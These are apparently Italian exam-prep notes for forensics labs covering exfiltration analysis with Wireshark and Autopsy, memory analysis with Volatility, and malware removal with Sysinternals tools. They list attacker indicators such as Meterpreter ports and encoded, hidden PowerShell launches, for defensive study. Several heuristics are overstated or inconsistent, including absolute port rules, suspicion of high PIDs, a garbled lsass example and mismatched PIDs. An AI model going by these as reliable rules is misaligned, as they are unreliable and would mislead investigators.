- **Filtro POST**: GET scarica, POST INVIA. Un POST verso IP esterno con corpo da 30-50 MB NON è navigazione web: è ESFILTRAZIONE. Un browser normale non fa upload da 50 MB spontaneamente: qualcuno (o un malware) ha deliberatamente inviato dati fuori dall'azienda. **Teoria: Q59 Export Objects HTTP.**

- **Filtro DNS**: il malware DEVE parlare col **C2** (Command & Control, il server dell'attaccante che lo telecomanda) prima di connettersi. Senza C2 il malware non riceve ordini, e' inutile. Per trovare il C2, il malware risolve un dominio via DNS. Domini .xyz, .tk, .ml = TLD gratuiti senza controlli d'identita', perfetti per campagne usa-e-getta. Nomi casuali (a7x9q.xyz) = **DGA** (Domain Generation Algorithm): il malware genera centinaia di domini al giorno con un algoritmo, e solo l'attaccante sa quali registrare. La difesa non puo' bloccarli tutti perche' cambiano ogni giorno. **Teoria: Q26 Kill Chain fase C2.**

- **Filtro porte**: 4444 = **Metasploit Meterpreter** (il toolkit di hacking piu' usato al mondo per controllare un PC da remoto dopo averlo compromesso). 8080 = proxy HTTP alternativo per C2 (molti firewall bloccano porte strane ma lasciano passare la 8080, quindi l'attaccante la usa come piano B). 1337 = **"leet"** (da "elite" scritto in leetspeak: 3=E, 7=T, 1=L). Gli hacker la usano come firma per le backdoor. NESSUN software legittimo usa 4444, 1337 o manda traffico HTTP su 8080 verso IP esteri. Il traffico legittimo usa solo 80 (HTTP) e 443 (HTTPS). **Teoria: Q51 netscan, Q26 C2.**

- **Conversations > Bytes**: ordinando per Bytes vedi subito chi ha trasferito più dati. La coppia con più Bytes inviati = VITTIMA (ha inviato dati) → ATTACCANTE (li ha ricevuti). IP in Russia/Cina/hosting cheap = C2.

In Conversations > TCP vedi una tabella cosi':

```
Address A          Address B          Packets A→B   Bytes A→B     Packets B→A   Bytes B→A
192.168.1.50       185.xx.xx.xx       1.247         52.428.800    892           45.230
192.168.1.50       142.250.1.1        45            3.200         52            28.400

>> 192.168.1.50 ha inviato 50 MB a 185.xx.xx.xx (attaccante).
   Il traffico verso 142.250.1.1 (Google) e' bilanciato = legittimo.
```

- **TCP Stream**: ricostruisci l'INTERA conversazione. Rosso = inviato dalla vittima, Blu = risposta del server. Vedi ESATTAMENTE nomi file, credenziali, comandi C2, dati esfiltrati. Se vedi dati di un database clienti in chiaro = PROVA DEFINITIVA.

- **Export Objects > HTTP**: estrai TUTTI i file scaricati durante la cattura. Trovi .exe, .dll, .js = PAYLOAD originale. Calcola hash SHA256 → VirusTotal.

**[DIGITA]: Autopsy (comandi da eseguire in ordine)**

**Interfaccia:** A sinistra hai l'albero di navigazione (File Views, Results, Tools). A destra l'area principale coi file. I casi aperti dal prof appaiono come cartelle.

```
Apri Autopsy (icona lente di ingrandimento)

Open Existing Case > seleziona il file .aut del caso > Open

File Views > Deleted Files              (file cancellati ma recuperabili)
File Views > File Types > By Extension  > cerca .zip, .rar, .7z
Tools > Timeline                        (zoomma sull'ora dell'incidente)
Results > Extracted Content             (email, chat, cronologia web)
```

**Cosa cercare e perché (da spiegare a voce):**

- **Deleted Files**: su Windows cancellare NON cancella fisicamente: il file resta sul disco finché lo spazio non viene sovrascritto. CERCA archivi .zip/.rar/.7z cancellati. Un attaccante comprime i dati rubati, li invia, poi CANCELLA l'archivio per pulire le tracce. data.zip creato alle 14:32 e cancellato alle 14:45 = 13 minuti per comprimere e pulire: troppo veloce per essere legittimo. **Teoria: Q29 Digital Forensic, Q57 Autopsy.**

- **By Extension**: gli archivi sono il CONTENITORE standard per i dati rubati. Un archivio creato POCO PRIMA di connessioni sospette = i dati sono stati preparati per l'esfiltrazione. Guarda la data di creazione.

- **Timeline**: vista cronologica di TUTTI gli eventi. Il PATTERN CLASSICO di esfiltrazione: (1) login sospetto 14:30, (2) ricognizione 14:31, (3) creazione archivio 14:32, (4) POST HTTP 14:33, (5) cancellazione archivio 14:45. Se vedi questa sequenza = esfiltrazione CONFERMATA al 100%.

- **Extracted Content**: Autopsy ha già estratto email, chat, cronologia. CERCA email ad indirizzi esterni sospetti. CERCA nella cronologia URL di file sharing (Dropbox, Mega, WeTransfer): l'attaccante potrebbe aver caricato i dati sul cloud.

**[DA SPIEGARE A VOCE]**: Ogni PASSO qui sopra ha gia' la spiegazione integrata (PERCHE' lo fai, COSA ottieni, RED FLAG). Quando il prof ti chiede di spiegare, ripercorri i PASSI 1-6 del blocco [DIGITA] qui sopra e racconta ESATTAMENTE quello che fai e PERCHE'. Non serve un discorso separato: il codice E' il discorso.

**COSA È ANDATO STORTO: LE PROVE ESATTE:**
- **Protocol Hierarchy**: HTTP non cifrato in rete aziendale = dati esposti.
- **Filtro POST**: POST da 30 MB verso IP esterno = upload di dati rubati (un browser NON fa POST da 30 MB da solo).
- **Conversations**: IP destinazione in Russia = l'azienda non ha sedi li', nessun motivo legittimo.
- **DNS**: dominio a7x9q.xyz registrato 3 giorni fa = dominio usa-e-getta per campagne malware.
- **Autopsy Deleted Files**: data.zip creato alle 14:32 e cancellato alle 14:45 = compressione + pulizia tracce.
- **Timeline**: compressione → POST → cancellazione in 13 minuti = firma temporale dell'esfiltrazione.
- **Event Logs**: Event ID 4624 da utente anomalo = accesso con credenziali rubate.

**IN SINTESI, PROFESSORE:** il pcap mi dice che e' uscito traffico HTTP verso un IP sospetto su porta 8080. Il disco mi dice che e' stato creato un archivio data.zip alle 14:32 e cancellato alle 14:45. La Timeline conferma: compressione → POST → cancellazione. Ho ricostruito TUTTA la catena dell'esfiltrazione."

> **Cosa dire all'esame:** "Uso Wireshark sul .pcap: Protocol Hierarchy mostra HTTP in chiaro, Conversations rivela 50 MB verso IP estero, filtro POST trova l'upload, DNS rivela domini DGA, Export Objects estrae i file. Poi con Autopsy sul .E01: Deleted Files trova data.zip cancellato, Timeline conferma la sequenza compressione -> POST -> cancellazione. L'esfiltrazione e' provata da DUE fonti indipendenti."

---

## LAB 2: Ricerca **malware** in **RAM** (Windows)



> **Collegamento alla teoria:** Questo lab applica Q37 (operazioni triage), Q38 (Memory Forensic), Q46 (processo/PID), Q47 (processo sospetto), Q51 (Volatility netscan), Q52 (Volatility malfind), Q54 (Process Hollowing).

**Scenario:** Un Windows e' infetto. Devi trovare il malware analizzando la RAM.

**Il prof ti da':** File **memory dump** (.mem o .dmp) gia' acquisito.

**Nota su FTK Imager:** Il prof lo cita in Dispensa 6 (righe 235, 257, 291) come strumento di acquisizione. Se dovessi fare il dump tu:
```
Apri FTK Imager > File > Capture Memory
Scegli dove salvare il file .mem > Capture Memory
Aspetta che finisca > il file .mem e' pronto per Volatility
```
Ma al lab il dump e' gia' pronto, quindi FTK Imager NON lo usi. Lo citi solo all'orale per dimostrare che sai come si acquisisce la RAM.

**Perche' la RAM e non il disco?** Un programma, per FUNZIONARE, deve stare nella RAM (la memoria veloce del computer). Se sta solo sul disco, e' fermo, non sta girando. Questo vale anche per il malware: puo' nascondersi sul disco (cancellare file, cancellare log, non lasciare tracce), ma nel momento in cui GIRA, e' per forza nella RAM. La RAM e' il suo punto debole. Un memory dump e' una FOTO di tutto quello che c'era nella RAM in un istante preciso: processi in esecuzione, connessioni di rete aperte, password in chiaro, codice iniettato dentro processi legittimi. E' come congelare la scena del crimine. Il dump si acquisisce con **FTK Imager** (File > Capture Memory) o **Dumpit** (da terminale). MAI spegnere il computer prima: la RAM e' volatile, quando togli la corrente si azzera e perdi tutto.

**La logica dell'investigazione in 5 passi (IMPARA QUESTO ORDINE):**

| Passo | Comando | Domanda investigativa | Teoria |
|-------|---------|----------------------|--------|
| 0 | `windows.info` (o `imageinfo`) | Che S.O. e'? (profilo Windows) | Q38 Memory Forensic |
| 1 | `pslist` | CHI c'era? (tutti i processi in esecuzione) | Q46 processo/PID |
| 2 | `pstree` | CHI ha lanciato chi? (relazioni padre-figlio) | Q47 processo sospetto |
| 3 | `netscan` | Con chi PARLAVA? (connessioni di rete) | Q51 Volatility netscan |
| 4 | `malfind` | Si è NASCOSTO dentro qualcuno? (codice iniettato) | Q52 Volatility malfind, Q54 Process Hollowing |
| 5 | `cmdline` | COME è stato chiamato? (parametri di lancio) | Q47 processo sospetto |

Ogni passo risponde a una domanda. Alla fine hai il QUADRO COMPLETO: chi è il malware, chi l'ha lanciato, con chi comunica, dove si nasconde, come opera.

**[DIGITA]: Volatility 3 (comandi in ordine ESATTO)**

```
cd C:\Volatility3

volatility3 -f memorydump.mem windows.info        (S.O. e profilo)
volatility3 -f memorydump.mem windows.pslist
volatility3 -f memorydump.mem windows.pstree
volatility3 -f memorydump.mem windows.netscan
volatility3 -f memorydump.mem windows.malfind
volatility3 -f memorydump.mem windows.cmdline
```

**Cosa cercare e perché in ogni passo:**

**PASSO 0: windows.info / imageinfo (Che S.O. e'? Il profilo Windows):**
Prima di tutto devi sapere che sistema operativo hai davanti. windows.info (Volatility 3) o imageinfo (Volatility 2) ti dice:

```
Volatility 3:  volatility3 -f memorydump.mem windows.info
Volatility 2:  volatility -f memorydump.mem imageinfo
```

L'output ti da': Windows 8.1 Update 1 (64-bit), Windows 10 22H2 (64-bit), Windows 7 SP1 (32-bit), ecc. In Volatility 3 non devi fare altro: il framework riconosce il profilo da solo. In Volatility 2 INVECE imageinfo e' OBBLIGATORIO: ti restituisce uno o piu' profili suggeriti (es. `Win81U1x64`, `Win10x64_19041`) e devi usare quel profilo in TUTTI i comandi successivi con `--profile=`. Senza imageinfo, Volatility 2 NON funziona. Se sbagli profilo, i comandi danno errori o risultati vuoti.

**PASSO 1: pslist (CHI c'era? La lista di TUTTI i processi):**
Il terminale stampa una tabella: PID | PPID | Name | Offset. PID è il numero del processo, PPID è il PID del PADRE. SCORRI la lista e CERCA:

```
PID    PPID   Name                    Offset(V)
------ ------ ---------------------- ----------------
0      0      System Idle Process    0xffff8000c4d18080
4      0      System                 0xffff8000c4d1c040
300    4      smss.exe               0xffff8000c4d20080
600    300    csrss.exe              0xffff8000c5a30080
2500   1200   winword.exe            0xffff8000c7e2d080
6000   2500   svch0st.exe            0xffff8000c9a15080

>> svch0st.exe (ZERO al posto di O!) PID 6000, PPID 2500 (winword.exe).
   Il processo legittimo e' svchost.exe.
```

- **Nomi falsi:** svch0st.exe (con ZERO al posto della O), lsass.exe (1 S sola), expl0rer.exe (zero). Il malware SPERA che tu non noti la differenza. Il vero processo si chiama svchost.exe, lsass.exe, explorer.exe.
- **Percorsi anomali:** C:\Users\...\AppData\Local\Temp\ o C:\ProgramData\. NESSUN software legittimo si installa nella cartella Temp dell'utente.
- **PID sospetti:** processi con PID > 5000. I processi di sistema hanno PID bassi (100-800). Un PID alto significa "lanciato di recente, dopo l'infezione".

**PASSO 2: pstree (CHI ha lanciato chi? L'albero genealogico):**
Il terminale stampa un ALBERO: ogni processo è indentato sotto a chi l'ha generato. È QUI che il malware NON PUÒ MENTIRE: la relazione padre-figlio è un fatto oggettivo nella RAM.

```
PID    PPID   Name                    Indent
------ ------ ----------------------  ------
0      0      System Idle Process     
4      0      System                  
* 300    4      smss.exe                .
* 600    300    csrss.exe               ..
  700    600    winlogon.exe            ...
   1200   700    fontdrvhost.exe         ....
* 2500   1200   winword.exe             ....
   4567   2500   cmd.exe                .....
* 6000   2500   svch0st.exe             .....
* 800    4      services.exe            .

>> I figli sono indentati sotto il padre. winword.exe (PID 2500) ha DUE figli:
   cmd.exe (PID 4567) e svch0st.exe (PID 6000). Word NON lancia ne' shell ne' processi
   di sistema = ENTRAMBI sono malware lanciati da una MACRO.
```
- winword.exe → cmd.exe = IMPOSSIBILE. Word NON lancia shell dei comandi. Significa che qualcuno ha aperto un documento Word con MACRO MALEVOLE.
- explorer.exe → powershell.exe = IMPOSSIBILE. Explorer NON lancia PowerShell.
- winword.exe → svch0st.exe = IMPOSSIBILE. Word non genera processi di sistema fasulli.
- PID padre FANTASMA (non esiste più nella lista) = l'attaccante ha lanciato il malware e ha chiuso il processo padre per coprire le tracce.

**PASSO 3: netscan (Con chi PARLAVA? Le connessioni di rete):**
Il terminale stampa: PID | Local Address | Foreign Address | State. Per ogni processo, vedi se aveva connessioni di rete ATTIVE.

```
PID    Local Address             Foreign Address          State
------ ------------------------ ------------------------ -----------
4      0.0.0.0:445               0.0.0.0:0                LISTENING
600    0.0.0.0:5040              0.0.0.0:0                LISTENING
2500   192.168.1.50:54322        52.xx.xx.xx:443          ESTABLISHED
6000   192.168.1.50:49152        185.xx.xx.xx:4444        ESTABLISHED

>> PID 6000 (svch0st.exe) -> IP esterno :4444 ESTABLISHED = C2 Metasploit ATTIVO.
```

- State = ESTABLISHED → connessione ANCORA ATTIVA al momento del dump.
- Foreign Address = IP ESTERNO (NON inizia con 192.168, 10., 172.16) → il processo parlava con qualcuno fuori dall'azienda.
- Porta 4444 = Metasploit Meterpreter (il toolkit di hacking piu' usato al mondo per controllare un PC da remoto dopo averlo compromesso).
- Porta 1337 = "leet" (da "elite" in leetspeak: 3=E, 7=T, 1=L). Gli hacker la usano come firma per le backdoor.
- Porta 8080 = proxy HTTP alternativo per C2.
- Un processo di sistema (come svchost.exe) NON dovrebbe MAI connettersi a un IP in Russia sulla porta 4444. Se lo fa, è C2.

**PASSO 4: malfind (Si è NASCOSTO dentro qualcuno? Codice iniettato):**
Malfind = MALware FINDer. Cerca regioni di memoria con permessi PAGE_EXECUTE_READWRITE (RWX). Un processo LEGITTIMO ha memoria con permessi Read+Execute (può LEGGERE ed ESEGUIRE). MAI Read+Write+Execute insieme (SCRIVERE ed ESEGUIRE nella stessa area). Se malfind trova memoria RWX:
- Qualcuno ha SCRITTO codice in quella zona di memoria → CODICE INIETTATO.
- Quel codice può essere ESEGUITO → il malware gira DENTRO un processo legittimo.
- Esempio: explorer.exe con regioni RWX = un malware si è iniettato dentro Explorer.
- Prendi l'hash del codice iniettato e cercalo su VirusTotal (MA ricorda: un malware può avere certificato falsificato e VirusTotal lo segna pulito. Il COMPORTAMENTO sospetto pesa più del verdetto VirusTotal).

**PASSO 5: cmdline (COME è stato chiamato? I parametri di lancio):**
Il terminale stampa il COMANDO ESATTO usato per lanciare ogni processo, con TUTTI i parametri. È come leggere la "frase" con cui è stato chiamato.
- `powershell -enc <lunghissima stringa base64>` → -enc = EncodedCommand. Esegue codice offuscato in base64. NESSUN amministratore legittimo lancia PowerShell con -enc. È ESCLUSIVAMENTE da attaccante.
- `-WindowStyle Hidden -ExecutionPolicy Bypass` → nasconde la finestra (la vittima non vede niente) e disabilita le protezioni di PowerShell.
- `cmd.exe /c ...` con percorso in C:\Users\...\Temp\ → /c significa "esegui e chiudi". Comportamento tipico da malware che non vuole lasciare finestre aperte.

**[DIGITA]: Volatility 2 (solo se il prof lo richiede)**

```
volatility -f memorydump.mem imageinfo
volatility -f memorydump.mem --profile=Win81U1x64 Pslist
volatility -f memorydump.mem --profile=Win81U1x64 NetScan
```

**Nota:** Volatility 2 (vecchia versione) richiede `--profile=` in OGNI comando. Prima lancia `imageinfo` per scoprire il profilo (Win81U1x64, Win10x64, ecc.). I plugin NON hanno il prefisso "windows." (es. `Pslist`, non `windows.pslist`). La logica investigativa è IDENTICA: windows.info → pslist → pstree → netscan → malfind → cmdline.

**[DA SPIEGARE A VOCE]**: Ogni PASSO qui sopra ha gia' la spiegazione integrata. Ripercorri i PASSI 0-5 nell'ordine esatto: prima windows.info per il profilo, poi pslist (chi c'era), pstree (chi ha lanciato chi), netscan (con chi parlava), malfind (dove si e' nascosto), cmdline (come e' stato chiamato). Spiega le 6 FASI: profilo → processi → albero → rete → iniezione → parametri. L'ordine NON si cambia: ogni passo risponde a una domanda investigativa precisa.

**COSA È ANDATO STORTO: LE PROVE ESATTE:**
- **pslist**: svch0st.exe (con ZERO) NON esiste in Windows: il processo legittimo è svchost.exe (con O). Una lettera cambiata = malware mascherato.
- **pstree**: svch0st.exe FIGLIO di winword.exe. Word NON lancia processi di sistema: vettore = macro malevola in un documento Word.
- **netscan**: connessione ESTABLISHED verso 185.xx.xx.xx:4444. Porta 4444 = Metasploit Meterpreter (toolkit per controllare un PC da remoto). Un processo di sistema non si connette a IP esterni su porte non standard.
- **malfind**: explorer.exe ha PAGE_EXECUTE_READWRITE. Un processo legittimo ha Read+Execute, MAI Read+Write+Execute insieme = codice INIETTATO dentro Explorer.
- **cmdline**: `powershell -enc <base64>`. `-enc` (EncodedCommand) = codice offuscato. Nessun amministratore legittimo lo usa.

**IN SINTESI, PROFESSORE:** pslist mostra 60 processi totali. pstree rivela che svch0st.exe è figlio di winword.exe: relazione IMPOSSIBILE in un sistema sano, significa macro malevola in un documento Word. netscan mostra che svch0st.exe ha una connessione attiva verso un IP in Russia sulla porta 4444 (Metasploit). malfind trova codice iniettato dentro explorer.exe. cmdline conferma che il malware è stato lanciato con PowerShell offuscato. Ho identificato il malware, il suo vettore di ingresso (macro Word), il suo C2 (IP russo su :4444), e la sua tecnica (iniezione in explorer.exe)."

> **Cosa dire all'esame:** "Analizzo il memory dump con Volatility in 5 passi: pslist trova svch0st.exe (fake) e winword.exe, pstree mostra che svch0st.exe e' FIGLIO di winword.exe = macro Word, netscan rivela connessione ESTABLISHED verso IP Russia su porta 4444 = Metasploit C2, malfind trova codice PAGE_EXECUTE_READWRITE iniettato in explorer.exe, cmdline conferma lancio con PowerShell -enc. Ho nome, PID, C2, tecnica e vettore del malware."

---

## LAB 3: Ricerca e rimozione **malware** nel S.O. (Windows)



> **Collegamento alla teoria:** Questo lab applica Q46 (processo/PID), Q47 (processo sospetto), Q56 (persistenza malware), Q60 (SysInternals: Process Explorer, Autoruns, Procmon, TCPView).

**Scenario:** Un Windows e' infetto. Devi trovare il malware, capire cosa fa, e rimuoverlo completamente.

**Il prof ti da':** Una macchina Windows infetta in locale (VM sul PC del lab, non remota). Devi analizzarla con i tool.

**[DIGITA]: Process Explorer (comandi in ordine)**


**Interfaccia:** Lista processi con colonne: Process | PID | CPU | Description | Path. I processi FIGLI sono indentati sotto il PADRE (es. `winword.exe` → `cmd.exe` = sospetto). Doppio click su un processo apre le Proprietà (tabs: Image, TCP/IP, Strings, Threads).

```
Click DESTRO su procexp.exe > Esegui come amministratore

SCORRI la lista:
  Colonna Process: cerca nomi sospetti (svch0st, x7g3q.exe)
  Colonna Path: C:\Windows\System32\ = OK, C:\Users\...\Temp\ = SOSPETTO
  Colonna Description: vuota = non è software legittimo

Doppio click sul processo sospetto:
  Tab Image > Verify Signature        (firma digitale?)
  Tab TCP/IP                          (connessioni del processo)
  Tab Strings > clicca Image          (cerca URL/IP nel codice)

View > Show Process Tree (Ctrl+T)     (relazioni padre-figlio)
```

**Cosa cercare e perché (da spiegare a voce):**

- **Nome/Path**: nomi che imitano Microsoft (svch0st con zero, lsass con 1 S). Percorso in Temp o ProgramData = MALWARE (nessun software legittimo si installa lì). Descrizione vuota = il file non ha metadati, non è software professionale.

Process Explorer mostra i processi cosi' (FIGLI indentati sotto il PADRE):

```
Process                 PID   CPU  Description         Publisher    Path
---------------------- ----- ---- ------------------- ------------ ---------------------------
System Idle Process      0    98%
 System                  4     0%
  smss.exe             300     0%  Windows Session     Microsoft    C:\Windows\System32
   csrss.exe           600     0%  Client Server       Microsoft    C:\Windows\System32
    winlogon.exe       1200    0%  Windows Logon       Microsoft    C:\Windows\System32
     winword.exe       2500    2%  Microsoft Word      Microsoft    C:\Program Files\...
      cmd.exe          4567    0%  Windows Command     Microsoft    C:\Windows\System32
      malware.exe      6000   10%  (nessuna)           (nessuno)    C:\Users\admin\Temp

>> cmd.exe FIGLIO di winword.exe = MACRO! malware.exe FIGLIO di winword.exe,
   senza firma, in Temp = MALWARE.
```

- **Verify Signature**: oggi qualsiasi software legittimo è FIRMATO digitalmente. "Not Verified" o "No digital signature" = MALWARE al 99%. La firma è come un documento d'identità del software.

- **TCP/IP tab**: mostra le connessioni SOLO di QUEL processo. Remote Address IP esterno + Remote Port 4444/1337/8080 + State ESTABLISHED = C2 attivo. Un processo sconosciuto in Temp connesso a IP russo = CONFERMA.

- **Strings tab**: TUTTO il testo dentro l'eseguibile. CERCA "http" (trovi URL C2), ".exe" (trovi altri file scaricati), "cmd" o "powershell" (trovi comandi). "C2: 192.168.1.100:4444" nel codice = PROVA DEFINITIVA.

- **Process Tree**: winword.exe → cmd.exe = MACRO (Word NON lancia shell). explorer.exe → powershell.exe = RED FLAG. PID padre fantasma = attaccante ha chiuso il padre per nascondere la catena di infezione.

**[DIGITA]: Autoruns (comandi in ordine)**


```
Click DESTRO su autoruns.exe > Esegui come amministratore

Scheda Logon              (programmi all'avvio utente: chiavi Run)
Scheda Services           (servizi Windows)
Scheda Scheduled Tasks    (attività pianificate)
Scheda Drivers            (driver di sistema)
```

**Cosa cercare e perché (da spiegare a voce):**

- **Logon**: Image Path in C:\Users\...\Temp\ = MALWARE. Colonna Publisher vuota = RED FLAG. Una entry qui significa che il malware SI RIAVVIA a ogni login: senza questa voce, il malware MORIREBBE al riavvio. Deseleziona la spunta per disabilitare. **Teoria: Q56 persistenza malware, Q60 SysInternals Autoruns.**

Scheda Logon di Autoruns:

```
Entry               Publisher             Image Path
------------------- --------------------- ---------------------------------------------
OneDrive            Microsoft Corporation C:\Users\admin\AppData\Local\Microsoft\...
malware.exe         (nessuno)             C:\Users\admin\AppData\Local\Temp\malware.exe
Windows Security    Microsoft Corporation C:\Windows\System32\SecurityHealthSystray.exe

>> malware.exe: Publisher VUOTO + percorso in Temp = PERSISTENZA MALEVOLA.
```

- **Services**: servizi con Publisher vuoto o sconosciuto. Nomi che imitano servizi Microsoft: "WindowsUpdate" (vero) vs "WindowsUpdatee" (falso). Image Path in Temp = falso servizio.

- **Scheduled Tasks**: task che lanciano powershell.exe o cmd.exe. Trigger frequenti (ogni ora, ogni 30 min). Il malware li usa per riavviarsi periodicamente.

- **Drivers**: programmi a livello kernel. Nei lab sono RARI, ma se trovi un driver con Publisher vuoto e nome sospetto, segnalalo.

**[DIGITA]: Analisi del Registro (Tools per Analisi Registri citati in Dispensa 6)**


```
regedit (integrato in Windows):
  Win+R > regedit > INVIO
  CERCA in: HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
  CERCA in: HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
  CERCA in: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services

RegRipper (utility forense, prof la cita in Dispensa 6 riga 420):
  rr.exe -r NTUSER.DAT -f > report_registro.txt
  rr.exe -r SOFTWARE -f > report_software.txt
  rr.exe -r SYSTEM -f > report_system.txt
  Leggi i report: ogni riga e' una chiave sospetta trovata automaticamente
```

**Cosa cercare e perche' (da spiegare a voce):**

regedit e' l'editor del registro integrato in Windows. Il registro e' il "cervello" di Windows: TUTTE le impostazioni stanno qui dentro. L'attaccante quasi sempre scrive qualcosa nel registro per restare nascosto.

- **HKCU\...\Run e HKLM\...\Run**: sono le chiavi dove i programmi si registrano per partire all'avvio. Autoruns te le mostra in modo grafico, ma con regedit ci arrivi direttamente. Se vedi un percorso in Temp o ProgramData = malware.
- **HKLM\...\Services**: servizi Windows. Se l'attaccante ha installato un falso servizio, lo trovi qui. Cerca nomi che imitano servizi Microsoft ("WindowsUpdate" vs "WindowsUpdatee").

RegRipper invece e' un tool AUTOMATICO. Tu gli dai i file del registro (NTUSER.DAT, SOFTWARE, SYSTEM) e lui ti produce un report con tutte le chiavi sospette gia' individuate. E' piu' veloce di regedit ma richiede i file hive del registro.

**[DIGITA]: Rimozione (comandi in ordine dopo aver identificato il malware)**

```
Apri Task Manager (Ctrl+Shift+Esc)
  Trova malware.exe > Click DESTRO > Termina attivita'

cmd (come amministratore):
  taskkill /F /PID 6000                  (termina forzatamente il processo)
  del C:\Users\admin\AppData\Local\Temp\malware.exe   (cancella il file)

Autoruns:
  Togli la spunta alla voce malware.exe nella scheda Logon
  (oppure Click DESTRO > Delete)

Regedit (se Autoruns non basta):
  Win+R > regedit > INVIO
  Vai a: HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
  Come riconosci una chiave sospetta:
    - Percorso (Data) in Temp o ProgramData = MALWARE
      (i programmi legittimi stanno in C:\Windows\System32 o C:\Program Files)
    - Nome che imita Windows (svch0st con zero, lsass con 1 S)
    - Publisher vuoto quando clicchi Properties sul file
    - File .exe appena creato (guarda la data)
  Click DESTRO sulla chiave sospetta > Delete

Riavvio del sistema

Verifica post-riavvio:
  Process Explorer > vedi se malware.exe e' ricomparso
  netstat -ano | find "4444" > vedi se la backdoor e' ancora in ascolto
```

**Cosa cercare e perche' (da spiegare a voce):**

- **taskkill /F /PID**: /F = force (forza la chiusura anche se il malware resiste). Il PID lo prendi da Process Explorer. Se non lo termini, il malware continua a girare mentre cerchi di cancellarlo.
- **Cancella il file**: il file in Temp va eliminato. Se Windows dice "file in uso", il processo e' ancora attivo: prima termina il processo, poi cancella.
- **Autoruns deseleziona**: togliendo la spunta, al prossimo riavvio il malware NON partira'. Se invece cancelli proprio la entry (Delete), la rimuovi definitivamente. La deselezione e' piu' sicura per l'esame perche' e' reversibile.
- **Riavvio**: FONDAMENTALE. Solo dopo il riavvio puoi essere sicuro che il malware non ha altri meccanismi di persistenza nascosti. Se dopo il riavvio il malware NON ricompare, hai rimosso tutto.
- **Verifica**: dopo il riavvio, riapri Process Explorer e controlla che malware.exe non ci sia piu'. Poi `netstat -ano | find "4444"` per verificare che la backdoor sia chiusa. Se entrambi sono puliti, hai risolto.

**[DA SPIEGARE A VOCE]**: Ogni PASSO qui sopra ha gia' la spiegazione integrata. Ripercorri i PASSI 1-5 di Process Explorer, i PASSI 1-4 di Autoruns, e i PASSI 1-5 della Rimozione. Spiega le 5 FASI: identificazione → persistenza → dump RAM → rimozione → verifica. L'ordine e' la tua risposta.

**COSA È ANDATO STORTO: LE PROVE ESATTE:**
- **Process Tree**: malware.exe (PID 4567) figlio di winword.exe: Word ha lanciato il malware = macro.
- **Percorso**: C:\\Users\\...\\AppData\\Local\\Temp\\: i programmi legittimi NON si installano in Temp.
- **Firma**: "No signature found": oggi ogni software legittimo e' firmato.
- **TCP/IP**: connessione a 185.xx.xx.xx:4444: porta Metasploit = C2.
- **Autoruns Logon**: chiave Run → malware.exe. Senza questa voce il malware NON sopravvive al riavvio.
- **netstat -ano**: porta 4444 in ascolto su 0.0.0.0 = backdoor accessibile da chiunque su Internet.

**IN SINTESI, PROFESSORE:** Process Explorer ha mostrato malware.exe (PID 4567) figlio di winword.exe, connesso a 185.xx.xx.xx:4444. Autoruns ha rivelato una chiave Run per la persistenza. Ho fatto dump RAM, poi rimosso il processo, il file, la chiave Run. Riavvio e verifica: sistema pulito."

